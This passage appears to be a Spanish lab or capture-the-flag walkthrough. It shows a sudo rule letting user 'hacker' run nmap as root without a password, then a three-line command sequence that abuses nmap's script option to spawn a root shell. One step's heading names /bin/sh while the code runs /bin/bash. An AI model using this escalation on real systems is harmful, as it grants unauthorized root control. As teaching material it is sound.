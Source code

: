 1. Después de ejecutar vemos que el usuario "hacker" tiene permiso para ejecutar **únicamente** el comando `/usr/bin/nmap` con privilegios de **root** y **sin necesidad de ingresar su contraseña**.

```bash
User hacker may run the following commands on HackingStation:
    (root) NOPASSWD: /usr/bin/nmap
```

```bash
TF=$(mktemp) 
echo 'os.execute("/bin/bash")' > $TF 
sudo nmap --script=$TF
```

Este conjunto de comandos tiene implicaciones importantes y puede ser peligroso si se ejecuta sin el conocimiento adecuado. Aquí está el desglose:

1. **TF=$(mktemp)**
    - Crea un archivo temporal y almacena su ruta en la variable `TF`.
2. **echo 'os.execute("/bin/sh")' > $TF**
    - Escribe el código `os.execute("/bin/bash")` en el archivo temporal. Este código ejecutará una shell (`/bin/bash`).
3. **sudo nmap --script=$TF**
    - Ejecuta `nmap` con permisos de administrador (`sudo`) e intenta usar el archivo temporal como un script de Nmap.
    - Si `nmap` tiene configuraciones que permiten ejecutar scripts de usuario, podría ejecutar el código dentro del archivo, iniciando una shell interactiva.
